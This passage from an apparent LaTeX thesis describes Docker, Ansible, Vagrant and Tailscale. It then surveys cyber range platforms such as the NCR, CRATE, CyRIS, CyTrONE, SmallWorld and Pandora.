    \item \textit{DevOps Enablement}, as in modern DevOps practices, Docker plays a crucial role. Applications can be built, tested, and deployed in easily reproducible environments throughout the development lifecycle. Continuous Integration/Continuous Delivery (CI/CD) pipelines are a great example.
\end{itemize}

Lastly, as mentioned in the ``\textit{Efficiency}'' topic, Docker differs quite a bit from Virtual Machines. Contrary to Docker containers, VMs run a complete operating system with its own kernel and virtualized hardware on top of the host machine. This requires more resources and takes more time to launch. As mentioned, Docker containers share the host system's kernel and resources, which makes them much more lightweight. VMs take the lead in terms of security, as more robust isolation is provided due to the hardware and software separation.
On the other hand, although a Docker container can not access the host machine directly, it can share resources with it, leading to sandbox escape attacks. Regarding portability, VMs are much less portable as they require a hypervisor to run. Typically, a hypervisor abstracts the host's physical resources, allowing each VM to behave independently, running its operating system and applications.

To conclude this part, Docker is more suitable for microservices-based architectures and containerized applications, in which VMs provide better isolation but come with a higher resource overhead.

More technically speaking, Docker uses a client-server architecture. The Docker client communicates with the Docker daemon, which manages the process of building, running, and distribution of containers. This communication uses a REST API over UNIX sockets or a network interface. 

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/docker_architecture.png}
    \caption{Docker Architecture \cite{docker_architecture_ref}.}
    \label{fig:docker_architecture}
\end{figure}

Fig. \ref{fig:docker_architecture} (p. \pageref{fig:docker_architecture}) depicts the architecture Docker follows. Several services can be found:

\begin{itemize}
    \item \textit{Docker daemon (dockerd)}, which listens for Docker API requests and deals with managing Docker objects, meaning images, containers, networks, and volumes.
    \item \textit{Docker client}, which is the primary way users interact with Docker. Commands like \texttt{docker run} are sent to \textit{dockerd}, which takes further action on them.
    \item \textit{Docker Registries}, that stores Docker images. Docker Hub is an example of a public registry where Docker looks for images by default.
    \item \textit{Docker Images} is a read-only template with instructions for creating a container. Each of these instructions creates a layer in the image, which is later used when changed and a new image is rebuilt. Only the layer which was modified is rebuilt, which improves the speed of the rebuilding process of containers.
    \item \textit{Docker Containers}, which are runnable instances of images. They can connect to various networks and attached storage. As referred to, a container is no more than a set of layers, and its last layer is always a read-write one, allowing the creation and modification of files and directories in the local filesystem of the container.
\end{itemize}

To conclude, \textit{LXC} (Linux Containers) and \textit{cgroups} (control groups) play a significant role in Docker's underlying architecture. \textit{LXC} is a lightweight operating system-level virtualization method for running multiple isolated Linux systems, known as containers, on a single Linux host. It provides the necessary tools, kernel features, and interfaces to create and manage containers. Each container operates as an independent environment with its own file system, processes, and network stack while sharing the host's kernel. Historically, Docker used \textit{LXC} to create and manage containers by leveraging Linux kernel namespaces and control groups. However, it later replaced it with its own runtime called ``libcontainer''. This change allowed Docker more control over the containerization process and reduced its dependency on external tools.
On the other hand, \textit{cgroups}, a Linux kernel feature that allows the allocation and isolation of system resources among different processes, are extensively used. \textit{Cgroups} provide a mechanism for managing, monitoring, and prioritizing CPU, memory, disk I/O, and other system resources, enabling fine-grained resource allocation and control. Whenever a Docker container is created, a \textit{cgroup} is assigned to it and acts as a resource controller for the container, enforcing limits and restrictions over it. These restrictions involve CPU and memory limits, among others, ensuring containers operate within defined boundaries and efficiently use the host system.

\subsubsection{Ansible} \label{sec:selected_tools_ansible}

Ansible is an open-source automation tool that deals with infrastructure provisioning, configuration management, and application deployment, among other manual processes. Contrary to some of the tools presented in Table \ref{tab:comparison_iac_tools} (p. \pageref{tab:comparison_iac_tools}), Ansible uses a client-only architecture and works by connecting to a machine over standard SSH by default and pushes instructions that could have otherwise been executed manually. These instructions use Ansible modules based on specific endpoint criteria and point to the desired state of the target machine. Ansible does not require additional servers, daemons, or databases, which turns it into quite an interesting tool.

When installing and configuring an application in a server or cloud endpoint, there is a need to perform infrastructure provisioning tasks. When the number of machines to provision is extremely large, it is not feasible to manually issue commands for all of them. Therefore, Ansible creates a set of procedural instruction playbooks in the YAML format that configure a set of managed nodes that make up an Ansible inventory. As with Docker, Ansible is also a tool widely used in the context of CI/CD DevOps pipelines, as entire deployments can be done using a set of playbooks.

As mentioned, SSH is commonly used to connect to managed nodes. Still, other options can be considered, for instance: Kerberos, Lightweight Directory Access Protocol (LDAP), and other centralized authentication management systems. Regarding credential storage, Ansible provides a service that encrypts this information called Ansible Vault.

As for which machines Ansible manages, a simple INI file can be used to make groups of our own choosing. An example of a plain text inventory file looks like this:

\begin{lstlisting}[caption=Ansible Example Inventory file.,numbers=none,label={lst:ansible_inv}]
[webservers]
www1.example.com
10.10.2.3

[dbservers]
db0.example.com
db1.example.com
\end{lstlisting}

Listing \ref{lst:ansible_inv} (p. \pageref{lst:ansible_inv}) shows two groups named ``webservers'' and ``dbservers'' respectively, that were created and whose child items can be represented either by a Fully Qualified Domain Name (FQDN) or an IP address. Afterward, variables can be assigned to the group or specific hosts in the inventory file or special directories.

\begin{figure}[H]
    
\includegraphics[width=5cm]{figures/ansible_scheme.png}
    \caption{Ansible Schema \cite{ansible_schema_ref}.}
    \label{fig:ansible_schema}
\end{figure}

Fig. \ref{fig:ansible_schema} (p. \pageref{fig:ansible_schema}) depicts a general view of how Ansible works, showing the control node, the system on which Ansible is installed, and in which an inventory file composed of a set of managed nodes is placed. These last ones will be later pushed with previously defined configurations.

\subsubsection{Vagrant} \label{sec:selected_tools_vagrant}

Vagrant is another open-source tool that creates a local environment that mimics the environment upon which code will eventually be deployed. It simplifies the creation and management of VMs, simplifying the process of reproducing an environment across different operating systems and platforms.

Several concepts need to be considered when focusing on how Vagrant works. Firstly, we need to consider the existence of a configuration file, the "\textit{Vagrantfile}", which defines the desired state of a VM. This file uses "boxes" as base images for creating VMs, similar to what happened in with Docker. Essentially, a box is a minimal operating system image further customized and provisioned by Vagrant. Moreover, we need to be aware of the concept of "providers", which take care of the creation, management, and execution of VMs. Examples include VirtualBox, VMware, and Hyper-V. Vagrant also supports using Docker as a provider, which allows development environments to be backed by Docker containers rather than VMs. Regarding the provisioning of VMs, configuration management tools, such as Ansible can be used. Lastly, as with Docker, it allows the creation of synchronized folders between the host machine and the Virtual Machine, and network-related configurations.

\subsubsection{Tailscale} \label{sec:selected_tools_tailscale}

Another selected tool that is worth mentioning is Tailscale which is a mesh VPN service that connects devices and applications in a secure and effortless way. It uses encrypted point-to-point connections using the WireGuard protocol. At first, Tailscale tries to connect devices point-to-point using a coordination server that is used to help nodes find each other by exchanging information on how they should connect, similar to the process of ``Hole Punching'', which is a NAT traversal process to directly connect two devices\footnote{\url{https://en.wikipedia.org/wiki/Hole_punching_(networking)}}. When, for some reason, this is not possible, maybe because the devices are using Symmetric NAT, meaning they only accept connections from peers they've previously connected to, Tailscale uses Designated Encrypted Relay for Packets (DERP) relay servers, and so, traffic remains end-to-end encrypted. This process is called TURN (Traversal Using Relays around NAT).

Conventional VPN services use the "Hub-and-Spoke" model where each client device connects to a central VPN gateway. This way, in a Hub-and-Spoke model, if we had a situation in the network where we needed ten fully connected nodes, the central hub would need to have data on nine nodes only, which is more straightforward than having ninety separate tunnel endpoints and know each node's public key, public IP address, and port number. With the Hub-and-Spoke model, we only need to know the static IP address of the central hub to which each node should connect. Some concerns should be addressed if this central hub is far from the remote devices, which can incur high-latency connections. This can be addressed using a multi-hub setup, with hubs/servers distributed across different geographical locations. With this setup, each client device needs a static IP address, an open firewall port, and a set of WireGuard keys. Still, some issues are introduced when, for instance, a new user is added, and there is the need to distribute a new WireGuard key pair to every network device.

A different and more efficient network schema that allows direct communication between nodes, contrary to the Hub-and-Spoke model, is the so-called ``Mesh Networks'' and consists of a set of WireGuard peer-to-peer connections, as presented in Fig. \ref{fig:tailscale_mesh} (p. \pageref{fig:tailscale_mesh}).

\begin{figure}[H]
    
\includegraphics[width=7cm]{figures/tailscale_meshnetwork.png}
    \caption{Point-to-Point Mesh Network \cite{tailscale_docs_ref}.}
    \label{fig:tailscale_mesh}
\end{figure}

Several problems arise from this configuration, like key distribution, node discovery, and firewalls that should allow incoming connections.

For the first problem, Tailscale uses the above-mentioned "coordination server", essentially a shared drop box for public keys. Here we get back to the Hub-and-Spoke model, but Tailscale claims these coordination servers carry virtually no traffic as only a few tiny encryption keys and policies are exchanged. The data plane is a mesh where the actual traffic is located. Typically the steps followed by a new node are as follows:

\begin{itemize}
    \item Every node generates a unique public/private key pair and links the public key to its identity.
    \item The node establishes communication with the coordination server and provides its public key along with information on its current location and domain.
    \item The node downloads a set of public keys and addresses within its domain from the coordination server. Other nodes have previously shared these keys.
    \item The node configures its WireGuard instance by incorporating the relevant set of public keys.
\end{itemize}

Next, the coordination server must know which public keys should be sent to which nodes. This is achieved via authentication, and several options are supported, from 2-Factor Authentication (2FA) or Multi-Factor Authentication (MFA), SMS, Google Authenticator, Gmail, OAuth2, OIDC (OpenID Connect), and SAML providers, among others. With this setup in mind, the authentication process is mostly outsourced because all the account and login data of a specific Tailscale network domain is hosted in another platform. After the authentication process, the public keys of each node are downloaded, and a WireGuard tunnel is configured for each of the network's nodes.

At last, it is essential to mention the NAT traversal feature offered by Tailscale, which turns connection between two nodes sitting behind separate NAT firewalls possible without ever needing to open a firewall port or configure a static IP address. The protocols used by Tailscale to achieve this are STUN (Session Traversal Utilities for NAT) and ICE (Interactive Connectivity Establishment)\footnote{\url{https://tailscale.com/blog/how-nat-traversal-works/}}. Essentially, ICE is a framework that allows peer-to-peer connections. ICE, in turn, uses STUN and/or TURN servers to accomplish this. TURN was mentioned before and was related to relay servers that simply forward packets between two clients. STUN is a protocol that discovers the peers' public addresses and determines restrictions that may prevent a direct connection between them. Notice that no firewall configuration changes are needed as Tailscale, by default, uses HTTPS traffic, for which most firewalls and network setups allow outbound connections. This approach helps to bypass firewall restrictions that may block connections.

\section{Related Work} \label{sec:cyber_ranges}

As explained, cyber ranges are mainly focused on virtualization and containerization. Nonetheless, the research of the current \textit{state-of-the-art} still shows a slight focus on physical hardware.

\subsection{Hardware-based Cyber Ranges} \label{sec:hardware_based_cr}

% National CR

According to Ferguson \textit{et al.} \cite{national_cr_ref}, the National Cyber Range (NCR), closely tied to the American Department of Defense, provides a ``\textit{unique environment for cybersecurity testing throughout the program development life cycle using unique methods to assess resiliency to advanced cyberspace security threats}''. The NCR works as an Internet-like environment supported by a multitude of Virtual Machines and physical hardware. Scenarios are deployed to perform tests that should not occur on open operational networks due to potentially catastrophic consequences caused by the execution of malicious payloads. It features traffic generation techniques, several types of vulnerability scanning, exploitation, and data capturing tools. As expected, the main focus of this project is purely military, meaning there are few details on the internals of the cyber range.

\begin{figure}[H]
    
\includegraphics[width=8cm]{figures/ncr_core_capabilities.png}
    \caption{NCR Core Capabilities \cite{national_cr_ref}.}
    \label{fig:ncr_core_capabilities}
\end{figure}

As depicted in Fig. \ref{fig:ncr_core_capabilities} (p. \pageref{fig:ncr_core_capabilities}), a firewall is placed between the "Isolated Testbeds" and the "Range Management Enclave". The latter consists of encapsulation tools and an automation tool kit that provisions resources from a "Common Resource Pool". Physical Layer 1 switching ensures isolation concerning the low-level communication protocol stack.  

\begin{figure}[H]
    
\includegraphics[width=8cm]{figures/ncr_test_evaluation.png}
    \caption{NCR Test and Evaluation Event Execution \cite{national_cr_ref}.}
    \label{fig:ncr_test_evaluation}
\end{figure}

Fig. \ref{fig:ncr_test_evaluation} (p. \pageref{fig:ncr_test_evaluation}) shows the sequence of actions required to execute tests. Firstly, testing starts with assigning hardware and software resources from the "Common Resource Pool". Afterward, the provisioning process includes using the Layer 1 switch to isolate the selected resources from all the other NCR assets. At this point, the systems under test are installed, and the final network state is matched against the initial expectations. Then, tests are performed, and results are collected. Lastly, hardware is sanitized, ensuring no remnants related to the test, and it is made available back in the "Common Resource Pool".

Gustafsson \textit{et al.} \cite{crate_ref} proposes CRATE, a cyber range heavily relying on a dedicated hardware platform, and the topic of Section \ref{sec:vm_cr} (p. \pageref{sec:vm_cr}), virtualization.

\begin{figure}[ht]
    
\includegraphics[width=8cm]{figures/crate_architecture.png}
    \caption{CRATE Architecture \cite{crate_ref}.}
    \label{fig:crate_architecture}
\end{figure}

Fig. \ref{fig:crate_architecture} (p. \pageref{fig:crate_architecture}) shows a high-level architecture of this system. It is featured with a set of \textit{virtualization servers} that house the emulated environments, a \textit{control plane} used for management tasks, and the \textit{event plane} for systems where training sessions are executed. Inside each virtualization server, a customized Linux-based operating system called CrateOS was placed. Among many other features, it contains a system service named NodeAgent that handles communication between the Core API, which connects to the Application Layer, the Database layer, and the VMs. It automates the deployment and configuration activities of the cyber range. The network in the event plane uses Software Defined Networking (SDN) to facilitate automated configuration and emulation of the networks. Besides, virtual network segments, VXLANs, are used to support many emulated networks. Furthermore, CRATE \textit{Exercise Control (CEC)} is a tool used to set up and manage training sessions. \textit{SVED (Scanning, Vulnerabilities, Exploits, and Detection)} is used to automate experiments and training scenarios. It consists of several modules: one linked to vulnerability data and automatic scans performed with OpenVAS\footnote{\url{https://www.openvas.org/}}, and others related to designing attack graphs, executing them, and generating reports. CRATE allows connecting any hardware device in the emulated environments to conduct experiments with hardware-based security solutions. It is featured with traffic generation tools and data collection tools, using \textit{tcpdump}\footnote{\url{https://www.tcpdump.org/}} and \textit{Snort}\footnote{\url{https://www.snort.org/}}.

\subsection{VM-based Cyber Ranges} \label{sec:vm_cr}

% CyRIS & CyTrONE

Most current \textit{state-of-the-art} focuses on cyber ranges based on Virtual Machines. Pham \textit{et al.} \cite{cyris_ref} proposes a system, CyRIS (Cyber Range Instantiation)\footnote{\url{https://github.com/crond-jaist/cyris}}, that automatically prepares and manages cyber ranges for cybersecurity training based on custom specifications. CyRIS is part of CyTrONE\footnote{\url{https://github.com/crond-jaist/cytrone}} \cite{cytrone_ref}, a training framework that facilitates training activities providing an open-source set of tools that automate the training content generation. It also integrates with a Learning Management System, Moodle. 

\begin{figure}[H]
    
\includegraphics[width=8cm]{figures/cyris_workflow.png}
    \caption{CyRIS Working Flow \cite{cyris_ref}.}
    \label{fig:cyris_workflow}
\end{figure}

According to Fig. \ref{fig:cyris_workflow} (p. \pageref{fig:cyris_workflow}), CyRIS is a module that takes a configuration input file following the YAML format and a base image under the format used for KVM virtualization, creating the desired environment according to the provided description. This base image contains a set of pre-installed operating systems and several basic system configurations (hostname, SSH keys, IP addresses). Later on, a master node running the CyRIS service processes the description file and allocates VMs that will be assigned to other hosts of the same LAN network, as observed in Fig. \ref{fig:cyris_architecture} (p. \pageref{fig:cyris_architecture}).

\begin{figure}[H]
    
\includegraphics[width=7cm]{figures/cyris_architecture.png}
    \caption{CyRIS Architecture \cite{cyris_ref}.}
    \label{fig:cyris_architecture}
\end{figure}

CyRIS comprises five key features that play important roles in its architecture:

\begin{itemize}
    \item \textit{System Configuration}, which not only involves basic system configuration but also managing user accounts and modifying firewall rules.
    \item \textit{Tool Installation}, which is essential for the penetration testing work.
    \item \textit{Incident Emulation}, as per the ability to launch actual incidents. It consists of attack emulation, traffic capture, and malware emulation.
    \item \textit{Content Management} consisting of copying content into the cyber range, executing scripts, and generating logs.
    \item \textit{Clone Management}, which considers the defined network topology for the VMs and the inherent isolation between them.
\end{itemize}

Beuran \textit{et al.} \cite{cytrone_ref} presents CyTrONE that follows the architecture presented in Fig. \ref{fig:cytrone_architecture} (p. \pageref{fig:cytrone_architecture}), where CyRIS is also represented.

\begin{figure}[H]
    
\includegraphics[width=8cm]{figures/cytrone_architecture.png}
    \caption{CyTrONE's Architecture \cite{cytrone_ref}.}
    \label{fig:cytrone_architecture}
\end{figure}

The \textit{Training Management} module is based on user inputs and the training database, which includes training scenarios (VM base images), security incidents, and vulnerability information. This module is responsible for creating the input files related to \textit{content description} and a \textit{cyber range description} defining the training's content and activity. The \textit{Content Description Processing} module converts the content description to a format named SCORM, which is widely used in the e-learning industry and, therefore,  understandable by Moodle. The adoption of Moodle is related to educational purposes and follows a Q\&A approach, as questions related to the posed challenge will be presented on this platform.

% SmallWorld

Like CyTrONE, Furfaro \textit{et al.} \cite{cloud_based_platform_ref} proposes another platform, SmallWorld, also integrated with e-learning systems that explores both virtualization and cloud technologies to reproduce a realistic hybrid environment. Here, the concept of autonomous software agents that imitate the behaviors of human users or malicious actors is introduced. The Agents' behavior is defined via an XML \textit{Agent Definition Language} (ADL) that describes a finite state automaton of the agents' states, possible transitions, and actions. This intermediate representation is later translated into executable code. This tool is featured with a Software Development Kit (SDK) that handles interaction with other tools and allows for the development of customized plug-ins. It uses its own customized \textit{Scenario Definition Language} (SDL) to describe the scenario properties, similarly to other projects. As it is common in VM-based scenarios and due to the possibility of deploying this system in the cloud, this system defines a VPN entry point for accessing the scenario from the exterior.

\begin{figure}[H]
    
\includegraphics[width=8cm]{figures/smallworld_architecture.png}
    \caption{SmallWorld's Architecture \cite{cloud_based_platform_ref}.}
    \label{fig:smallworld_architecture}
\end{figure}

Fig. \ref{fig:smallworld_architecture} (p. \pageref{fig:smallworld_architecture}) depicts the multi-layered architecture of SmallWorld, which consists of the following:

\begin{itemize}
    \item \textit{Physical Layer}: where computational, storage, and networking hardware is configured to offer fault tolerance and business continuity. It features routers, switches, firewalls, Storage Area Networks (SAN), servers, and other networking services.
    \item \textit{Abstraction Layer}: that relies upon cloud and virtualization technologies, such as OpenStack\footnote{\url{https://www.openstack.org/}}, VirtualBox\footnote{\url{https://www.virtualbox.org/}} or Amazon EC2\footnote{\url{https://aws.amazon.com/ec2/}}, to manage the entire virtual network infrastructure through a hypervisor. 
    \item \textit{Core Service Layer}: where the main software components are hosted. For instance, the "Network Linker" ``\textit{communicates with the underlying network hypervisor and introduces facilities to manage the networking services}'', the "Publisher" ``\textit{is responsible for installing applications (...) and agents in a scenario}'', the "Datastore Engine" ``\textit{handles information that must be stored into suitable databases based on the data type}'' and is later queried by the "Query Engine", the "Agent Engine" that handles the behavior of agents and the "Network Linker" that takes care of statistical data about the running scenario.
    \item \textit{API Layer}: an API connecting to the services below. 
    \item \textit{Management and Control Layer}: where management and development tools rest upon.
\end{itemize}

% Pandora

Jiang \textit{et al.} \cite{pandora_ref} mentions a particularly interesting VM-based type of cyber range, Pandora, which is intentionally incompatible with enterprise systems to reduce the risk of attack propagation into the infrastructure. It proposes a system suitable for automated testing of exploits and result collection, keeping security concerns related to the sandboxed environment in mind by considering vulnerabilities on VMware Fusion (CVE-2015-2337) and Venom (CVE-2015-3456) that allowed VM escape, thereby causing damage to host systems. 

\begin{figure}[H]
    
\includegraphics[width=14cm]{figures/pandora_architecture.png}
    \caption{Pandora's Architecture \cite{cytrone_ref}.}
